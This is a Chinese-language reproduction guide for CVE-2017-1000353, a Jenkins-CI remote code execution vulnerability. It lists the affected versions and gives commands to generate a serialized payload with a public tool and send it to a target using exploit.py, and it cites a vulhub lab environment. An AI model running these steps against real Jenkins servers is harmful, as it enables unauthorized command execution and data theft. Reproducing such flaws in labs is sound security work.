 （CVE-2017-1000353）Jenkins-CI 远程代码执行漏洞
===============================================

一、漏洞简介
------------

该漏洞存在于使用HTTP协议的双向通信通道的具体实现代码中，Jenkins利用此通道来接收命令，恶意攻击者可以构造恶意攻击参数远程执行命令，从而获取系统权限，造成数据泄露。

二、漏洞影响
------------

所有Jenkins主版本均受到影响(包括\<=2.56版本)所有Jenkins LTS 均受到影响( 包括\<=2.46.1版本)

三、复现过程
------------

### 步骤一、生成序列化字符串

参考<https://github.com/ianxtianxt/CVE-2017-1000353>，首先下载[CVE-2017-1000353-1.1-SNAPSHOT-all.jar](https://github.com/ianxtianxt/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar)，这是生成POC的工具。

执行下面命令，生成字节码文件：

    java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
    # jenkins_poc.ser是生成的字节码文件名
    # "touch ..."是待执行的任意命令

执行上述代码后，生成jenkins\_poc.ser文件，这就是序列化字符串。

### 步骤二、发送数据包，执行命令

下载[exploit.py](https://github.com/ianxtianxt/CVE-2017-1000353/blob/master/exploit.py)，python3执行`python exploit.py http://www.0-sec.org:8080 jenkins_poc.ser`，将刚才生成的字节码文件发送给目标：

![1.jpg](./.resource/(CVE-2017-1000353)Jenkins-CI远程代码执行漏洞/media/rId29.jpg)

进入docker，发现`/tmp/success`成功被创建，说明命令执行漏洞利用成功：

![2.jpg](./.resource/(CVE-2017-1000353)Jenkins-CI远程代码执行漏洞/media/rId30.jpg)

参考链接
--------

> https://vulhub.org/\#/environments/jenkins/CVE-2017-1000353/
